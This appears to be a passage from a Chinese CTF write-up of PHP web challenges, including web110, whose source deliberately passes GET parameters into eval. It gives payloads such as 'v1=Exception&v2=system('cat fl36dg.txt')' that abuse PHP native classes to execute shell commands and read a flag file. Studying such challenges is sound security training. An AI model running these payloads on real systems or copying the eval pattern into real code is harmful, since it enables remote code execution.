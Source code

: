 ```php

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

关于php原生类的利用

https://blog.csdn.net/weixin_54902210/article/details/124689580

payload:

```
v1=Exception&v2=system('cat fl36dg.txt') 
or
v1=Reflectionclass&v2=system('cat fl36dg.txt')
```

其他的原生类也行，比如Error

#### web110

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:49:10

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```
